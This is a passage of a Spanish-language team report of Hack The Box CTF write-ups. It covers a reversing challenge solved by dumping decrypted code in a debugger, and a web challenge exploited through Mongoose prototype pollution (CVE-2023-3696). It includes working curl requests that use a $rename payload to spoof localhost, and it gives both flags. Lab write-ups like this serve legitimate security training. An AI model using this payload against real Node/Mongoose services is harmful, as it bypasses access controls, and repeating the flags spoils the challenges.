







La validación se reparte en: guarda de argumentos (`argc == 2`), guarda de longitud (la entrada debe tener al menos 22 caracteres), cuatro blobs que comparan la flag **carácter por carácter**, y un último blob que imprime el veredicto (`Correct`/`No`).

**Paso 3 — Extracción de los bytes descifrados (análisis dinámico)**

Como el código interesante solo existe descifrado en memoria, se ejecuta el binario bajo **Wine** y se depura con **winedbg (gdb)** para volcarlo. Se coloca un breakpoint en `VirtualProtect` (que se llama justo cuando el buffer ya está descifrado) y se vuelca la memoria apuntada por `RCX`, identificando cada blob por su longitud (`RDX`):

```bash
winedbg --gdb ./partialencryption.exe ABCDEFGHIJKLMNOPQRSTUV
```
```gdb
b VirtualProtect
continue
# en cada hit, identificar el blob por su longitud (RDX) y volcar:
dump binary memory blob.bin $rcx ($rcx+$rdx)
```





**Paso 4 — Reconstrucción de la flag**

Cada `.bin` volcado es código x86-64. Cargándolos en Ghidra como *raw binary* (`x86 / default / 64 / little / Visual Studio`) y decompilando, se ve que los blobs de validación comparan cada carácter de `argv[1]` contra una constante y acumulan los errores con un OR:

```c
*resultado |= (argv[1][i] != '<carácter_esperado>');
```









Juntando los caracteres esperados de los índices 0 a 21 se reconstruye la flag. Se verifica ejecutando el binario con la flag correcta:

```bash
wine ./partialencryption.exe 'HTB{W3iRd_RUnT1m3_DEC}'
```



### Herramientas utilizadas

| Herramienta        | Uso en el reto                                             |
|--------------------|------------------------------------------------------------|
| Ghidra             | Decompilar el PE y los blobs descifrados                   |
| objdump / strings  | Reconocimiento inicial e importaciones                     |
| Wine               | Ejecutar el PE de Windows en Linux                         |
| winedbg (gdb)      | Breakpoint en `VirtualProtect` y volcado de la memoria descifrada |

### Debilidad (CWE)

**CWE-656: Dependencia de la seguridad por oscuridad**

La única protección del reto es **cifrar parte del código** para ocultar la lógica de validación. Como el binario debe descifrarlo para ejecutarlo, basta con observar la memoria en runtime (o replicar el descifrado) para recuperar la lógica; además, el carácter esperado de cada posición de la flag queda incrustado como constante en las comparaciones.

### Patrón de ataque (CAPEC)

**CAPEC-191: Lectura de constantes sensibles dentro de un ejecutable**

Tras descifrar los blobs en runtime, se leyeron las **constantes de comparación** (los caracteres esperados de la flag) incrustadas en el código, reconstruyendo la bandera carácter por carácter.

### Bandera

```
HTB{W3iRd_RUnT1m3_DEC}
```

---

---

## 1.8 Secure Notes

| Campo                | Valor                        |
|----------------------|------------------------------|
| Categoría            | Web                          |
| Dificultad           | Easy                         |
| Puntos (XP reward)   | 260                          |
| Fecha de resolución  | 13/11/2026                   |
| Resuelto por         | Djedrielle                   |

### Descripción del reto

Reto de Web que entrega el código fuente de una aplicación de notas en Node.js (Express + MongoDB/Mongoose). Expone un endpoint `/flag` que solo responde si la petición proviene de `localhost` (`127.0.0.1`/`::1`). El objetivo es burlar esa restricción para obtener la bandera.

### Procedimiento

**Paso 1 — Reconocimiento / análisis del código fuente**

Se revisó el código del servidor. El endpoint `/flag` compara `req.connection.remoteAddress` contra direcciones de localhost; los demás endpoints manipulan notas:

- `/create` — crea una nota (valida que `title`/`content` sean strings).
- `/get/:noteId` — consulta una nota por id.
- `/update` — `Note.findByIdAndUpdate(noteId, req.body)`: pasa el cuerpo JSON **completo** como documento de actualización, sin filtrar campos.

Revisando el despliegue (`Dockerfile`, `supervisord.conf`) se confirma que **no hay reverse proxy ni bot** y que Node se expone directo. Por tanto `remoteAddress` es la IP real del cliente: **no existe SSRF** ni forma de "aparentar" ser localhost por red. La versión de Mongoose es **7.2.4**.





**Paso 2 — Identificación de la vulnerabilidad**

`/update` pasa `req.body` sin sanear a `findByIdAndUpdate`. Mongoose **7.2.4** es vulnerable a **Prototype Pollution (CVE-2023-3696)**: un documento de actualización con el operador `$rename` cuyo destino contiene `__proto__` contamina `Object.prototype` cuando Mongoose rehidrata el documento.

El *gadget* que convierte esa contaminación en bypass es una propiedad interna de los sockets de Node: `remoteAddress` se obtiene de `socket._getpeername().address`, y `_getpeername()` devuelve `this._peername` **si ya existe** (sin consultar la IP real del socket). Al contaminar `Object.prototype._peername = { address: '127.0.0.1', family: 'IPv4' }`, cualquier socket nuevo hereda esa dirección y el chequeo de `/flag` pasa.



**Paso 3 — Explotación**

Cadena de tres peticiones:

1. Crear una nota con los valores a inyectar (dirección y familia):
```bash
curl -s http://<HOST>:<PORT>/create -H 'Content-Type: application/json' \
  -d '{"title":"127.0.0.1","content":"IPv4"}'
```
2. Mover esos valores a rutas `__proto__` con `$rename` (dispara la contaminación al releer el documento):
```bash
curl -s http://<HOST>:<PORT>/update -H 'Content-Type: application/json' \
  -d '{"noteId":"<ID>","$rename":{"title":"__proto__._peername.address","content":"__proto__._peername.family"}}'
```
3. Pedir la flag en una conexión nueva; el chequeo de localhost ya se evade:
```bash
curl -s http://<HOST>:<PORT>/flag
```



### Herramientas utilizadas

| Herramienta                               | Uso en el reto                                  |
|-------------------------------------------|-------------------------------------------------|
| curl / Burp Suite                         | Enviar las peticiones del exploit               |
| Lectura de código (Node/Express/Mongoose) | Identificar el endpoint vulnerable y el gadget  |

### Debilidad (CWE)

**CWE-1321: Modificación indebida de atributos del prototipo de objetos ("Prototype Pollution")**

El endpoint `/update` pasa `req.body` sin sanear a `findByIdAndUpdate`; con el operador `$rename` hacia `__proto__._peername`, Mongoose 7.2.4 (CVE-2023-3696) escribe en `Object.prototype`, contaminando todos los objetos del proceso.

### Patrón de ataque (CAPEC)

**CAPEC-676: Inyección NoSQL**

Se inyectó el operador de MongoDB `$rename` dentro del JSON de `/update` para escribir en una ruta `__proto__`, convirtiendo la inyección NoSQL en contaminación de prototipo que falsea `remoteAddress` y burla el control de acceso de `/flag`.

### Bandera

```
HTB{m0ng00s3_pr0t0typ3_p0llus10n_c0mb1n3d_w1th_1nt3rn4l_n0d3_g4dg3ts!}
```

---

# 2. Calendario de resolución

| #  | Fecha Inicio | Reto       | Categoría  | Puntos | Fecha Fin    | Integrante  |
|----|--------------|------------|------------|--------|--------------|-------------|
| 1  |   3/10/2026  | r0bob1rd   | Pwn        | 260    | 4/10/2026    | Djedrielle  |
| 2  | 17/10/2026   | Restaurant | Pwn        | 260    | 17/10/2026   | Djedrielle  |
| 3  | 7/10/2026    | Execute    | Pwn        | 260    | 7/10/2026    | Sebastian   |
| 4  | 26/10/2026   | Last Call  | Pwn        | 260    | 26/10/2026   | Sebastian   |
| 5  | 29/10/2026   | Cyberpsychosis | Reversing | 260 | 30/10/2026   | Sebastian   |
| 6  | 9/11/2026    | TreaPortal | Web        | 260    | 9/11/2026    | Sebastian   |
| 7  | 12/11/2026   | Partial Encryption | Reversing | 260 | 12/11/2026 | Djedrielle  |
| 8  | 13/11/2026   | Secure Notes | Web      | 260    | 13/11/2026   | Djedrielle  |
| …  |              |            |            |        |              |             |

---

# 3. Tabla resumen

| Reto       | Categoría   | Djedrielle | Sebastian |
|------------|-------------|--------------|--------------|
| r0bob1rd   | Pwn         |  X           |              |
| Restaurant | Pwn         |  X           |              |
| Execute    | Pwn         |              |  X           |
| Last Call  | Pwn         |              |  X           |
| Cyberpsychosis | Reversing |            |  X           |
| TreaPortal | Web         |              |  X           |
| Partial Encryption | Reversing | X      |              |
| Secure Notes | Web       | X            |              |
| …          |             |              |              |
| **Total**  |             | **1040**     | **1040**     |

### Verificación de requisitos

| Requisito                          | Cumple   |
|------------------------------------|----------|
| Mínimo 2300 puntos (XP)            | [Sí/No]  |
| Al menos 2 retos de Pwn            | Sí       |
| Al menos 2 retos de Reversing      | [Sí/No]  |
| Al menos 2 retos de Web            | Sí       |
| Cada reto vale ≤ 500 puntos        | [Sí/No]  |
